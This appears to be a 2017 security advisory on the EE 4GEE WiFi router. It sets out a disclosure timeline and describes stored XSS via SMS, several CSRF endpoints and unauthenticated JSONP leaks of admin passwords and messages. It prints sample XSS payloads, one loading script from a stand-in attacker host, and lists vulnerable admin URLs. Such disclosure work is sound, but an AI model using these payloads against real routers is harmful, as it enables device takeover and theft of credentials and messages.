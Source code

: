 

EE 4GEE Wireless Router - Multiple Security Vulnerabilities Advisory
-------------------------------------------------
<b>Hardware Version/Model:</b> 4GEE WiFi MBB (EE60VB-2AE8G83).
<br>
<b>Vulnerable Software Version:</b> EE60_00_05.00_25.
<br>
<b>Patched Software Version:</b> EE60_00_05.00_31.
<br>
<b>Product URL:</b> https://shop.ee.co.uk/dongles/pay-monthly-mobile-broadband/4gee-wifi/details
<br>
<b>Proof of Concept Writeup:</b> https://blog.jameshemmings.co.uk/2017/08/24/ee-4gee-mobile-wifi-router-multiple-security-vulnerabilities-writeup/#more-276
<br>
<b>Disclosure Timeline:</b>
<br>
27th July, 2017 at 21:32 GMT. Email sent with technical vulnerability information and PoC.
<br>
27th July, 2017 at 22:00 GMT. Response from EE devices manager, confirming receipt of PoC.
<br>
31th July, 2017 at  18:47 GMT. Update from vendor, patches being developed for reported issues.
<br>
1st August, 2017 at 10:43 GMT. Reply sent to vendor.
<br>
10th August, 2017 at 10:32 GMT. Update from vendor, patches still being developed.
<br>
18th August, 2017 at 12:11 GMT. Email sent to vendor asking for update/ETA.
<br>
18th August, 2017 at 12:15 GMT. Response from vendor, updates to be released on Monday.
<br>
18th August, 2017 at 12:30 GMT. Reply sent to vendor with device IMEI for online update process.
<br>
22nd August, 2017 at 15:54 GMT. Response from vendor, beta firmware released to verify  changes.
<br>
23rd August, 2017 at 21:29 GMT. Reply sent to vendor, vulnerabilities successfully patched.
<br>
24th August, 2017 at 09:32 GMT. Response from vendor, patch publicly released to customers.
<br>
24th August, 2017 at 12:00 GMT. Full disclosure via Blog.

Stored Cross Site Scripting (XSS) - SMS Messages:
-------------------------------------------------
<b>Attack Type:</b> Remote
<br>
<b>Impact:</b> Code Execution
<br>
<b>Affected Components:</b><br>http://ee.mobilebroadband/default.html#sms/smsList.html?list=inbox<br>
http://ee.mobilebroadband/getSMSlist?rand=0.19598614685224347
<br>
<br>
<b>Attack Vectors:</b> An attacker can exploit the vulnerability by sending a remote SMS message to the device with an XSS payload such as "<script src=http://payload.js</script>" which is executed upon the user viewing the SMS message within the admin panel "SMS Inbox" functionality. Additionally, self-XSS can be achieved by creating an XSS payload from the device its self within a text message, which could be chained with other vulnerabilities such as CSRF.
<br>
<br>
<b>Vulnerability Description:</b>The 4GEE Mobile WiFi Router is vulnerable to Stored Cross Site Scripting (XSS) within the "sms_content" parameter returned to the application's SMS Inbox webpage by the "getSMSlist" POST request, due to a lack of input validation and/or encoding. This exploit can be triggered by remotely sending an SMS message containing any XSS payload such as '"><script src=http://attacker.tld/r.js></script>' which upon clicking on the text message within the web application is successfully executed. 
<br>
<br>
Additionally, due to the other vulnerabilities identified within this device, such vulnerability can be chained with Cross Site Request Forgery (CSRF) using the Stored XSS payload to send an JavaScript XHR POST request to the "uploadSettings" webpage containing binary configuration data, allowing for total modification of device settings by an attacker.

CVSS:3.0/AV:N/AC:L/PR:N/UI:R/S:U/C:L/I:H/A:N/E:H/RL:O/RC:C (CVSS V3: 7.1 - High).

<b>Author:</b> James Hemmings - security@jameshemmings.co.uk
<br>
<b>Reference(s)</b>:
<br>
[1] https://blog.jameshemmings.co.uk/2017/08/21/ee-4gee-mobile-wifi-router-multiple-security-vulnerabilities

Cross Site Request Forgery (CSRF) - Multiple:
-------------------------------------------------
<b>Attack Type:</b> Remote
<br>
<b>Impact:</b> Code Execution
<br>
<b>Affected Components:</b>
<br>
http://192.168.1.1/goform/AddNewProfile?rand=0.376065695742409
<br>
http://192.168.1.1/goform/setWanDisconnect?rand=0.6988130822240772
<br>
http://192.168.1.1/goform/setSMSAutoRedirectSetting?rand=0.9003361879232169
<br>
http://192.168.1.1/goform/setReset?rand=0.021764703082234105
<br>
http://192.168.1.1/goform/uploadBackupSettings
<br>
<br>
<b>Attack Vectors:</b> An attacker could attempt to trick users into accessing malicous CSRF payload URLs, which would allow an attacker to execute privileged functions such as device reset, device reboot, internet connection and disconnection, SMS message redirection and binary configuration file upload, which would allow modification of all device settings. Addtionally, this exploit can be chained together using other vulnerabilities discovered to be remotely exploitable over SMS, using Stored Cross Site Scripting (XSS).
<br>
<br>
<b>Vulnerability Description:</b> The 4GEE Mobile WiFi Router is vulnerable to multiple Cross Site Request Forgery (CSRF) vulnerabilities within various router administration webpages, due to the lack of robust request verification tokens within requests. An attacker could persuade an authenticated user to visit a malicous website using phishing and/or social engineering techniques to send an CSRF request to the web application, thus executing the privileged function as the authenticated user. In this case, due to the lack of authentication on certain privileged functions, authentication may not be neccessary.
<br>
<br>
The following webpages were identified to be vulnerable to Cross Site Request Forgery (CSRF) attacks:
<br>
<br>
AddNewProfile [2].
<br>
setWanDisconnect [3].
<br>
setSMSAutoRedirectSetting [4].
<br>
setReset [5].
<br>
uploadBackupSettings [6].
<br>
<br>
CVSS:3.0/AV:N/AC:H/PR:N/UI:R/S:U/C:H/I:H/A:N/E:H/RL:O/RC:C (CVSS V3: 6.8 - Medium).
<br>
<br>
<b>Author:</b> James Hemmings - security@jameshemmings.co.uk
<br>
<b>Reference(s):</b>
<br>
[1] https://blog.jameshemmings.co.uk/2017/08/21/ee-4gee-mobile-wifi-router-multiple-security-vulnerabilities
<br>
[2] https://github.com/JamesIT/vuln-advisories-/blob/master/EE-4GEE-Multiple-Vulns/CSRF/AddProfileCSRFXSSPoc.html
<br>
[3] https://github.com/JamesIT/vuln-advisories-/blob/master/EE-4GEE-Multiple-Vulns/CSRF/CSRFInternetDCPoC.html
<br>
[4] https://github.com/JamesIT/vuln-advisories-/blob/master/EE-4GEE-Multiple-Vulns/CSRF/CSRFPocRedirectSMS.html
<br>
[5] https://github.com/JamesIT/vuln-advisories-/blob/master/EE-4GEE-Multiple-Vulns/CSRF/CSRFPocResetDefaults.html
<br>
[6] https://github.com/JamesIT/vuln-advisories-/blob/master/EE-4GEE-Multiple-Vulns/uploadBinarySettingsCSRFPoC.html
<br>

JSONP Sensitive Information Disclosure - Multiple
-------------------------------------------------
<b>Attack Type:</b> Remote
<br>
<b>Impact:</b> Information Disclosure
<br>
<b>Affected Components:</b> 
<br>
http://192.168.1.1/goform/getPasswordSaveInfo
<br>
http://192.168.1.1/goform/getSingleSMSReport?rand=0.133713371337
<br>
http://192.168.1.1/goform/getSingleSMS?sms_id=1&rand=0.133713371337
<br>
http://192.168.1.1/goform/getSMSStoreState
<br>
http://192.168.1.1/goform/getSMSAutoRedirectSetting
<br>
http://192.168.1.1/goform/getSysteminfo
<br>
http://192.168.1.1/goform/getUsbIP?rand=0.13371337
<br>
<br>
<b>Attack Vectors:</b> An attacker on the local network could escalate privileges from unauthenticated user, to authenticated administrative user by accessing the saved admin credentials within the JSONP endpoint. Additionally, an attacker could access network configuration data and SMS messages without authentication. 
<br>
<br>
<b>Vulnerability Description:</b> The 4GEE Mobile WiFi Router is vulnerable to multiple JSONP information disclosure vulnerabilities within various endpoints which retrieve and/or set data. The JSONP endpoints allow for unauthenticated information disclosure of sensitive configuration data, settings, administration passwords and SMS messages, due to the lack of robust and effective access control. An attacker could view such unauthenticated endpoints via the local WiFi network to gain access to the administration credentials, router configuration and/or SMS messages.
<br>
<br>
CVSS:3.0/AV:A/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:N/E:H/RL:O/RC:C (CVSS V3: 8.1 - High).
<br>
<br>
<b>Author:</b> James Hemmings - security@jameshemmings.co.uk
<br>
<b>Reference(s):</b>
<br>
[1] https://blog.jameshemmings.co.uk/2017/08/21/ee-4gee-mobile-wifi-router-multiple-security-vulnerabilities
<br>
<br>

Disclaimer
-------------------------------------------------
The information in the advisory is believed to be accurate at the time of publishing based on currently available information. Use of the information constitutes acceptance for use in an AS IS condition. There are no warranties with regard to this information. Neither the author nor the publisher accepts any liability for any direct, indirect, or consequential loss or damage arising from use of, or reliance on, this information.
